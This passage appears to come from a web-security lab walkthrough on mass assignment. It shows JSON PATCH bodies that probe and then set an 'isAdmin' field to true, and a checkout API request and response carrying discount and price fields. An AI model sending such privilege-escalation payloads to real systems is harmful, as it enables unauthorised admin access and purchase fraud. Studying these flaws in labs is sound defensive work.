 ```json
{
    "username": "wiener",
    "email": "wiener@example.com",
    "isAdmin": false,
}
```

Also attempt to send a PATCH request with an invalid value:

```json
{
    "name": "John Doe",
    "email": "john@example.com",
    "isAdmin": "foo"
}
```

If different behaviours occur, it suggests the invalid value impacts the query logic. Send a PATCH request with the value set to true:

```json
{
    "name": "John Doe",
    "email": "john@example.com",
    "isAdmin": true
}
```

Use all the functionality to popular Burp's HTTP history for review. Afterwards, you may notice a request such as GET /api/checkout which returns the following information in response:

```json
{
  "chosen_discount": {
    "percentage": 0
  },
  "chosen_products": [
    {
      "product_id": "1",
      "name": "Lightweight \"l33t\" Leather Jacket",
      "quantity": 1,
      "item_price": 133700
    }
  ]
}
```

Or a POST request to /api/checkout which contains the request body:

```json
{
  "chosen_products": [
    {
      "product_id": "1",
      "quantity": 1
    }
  ]
}
```
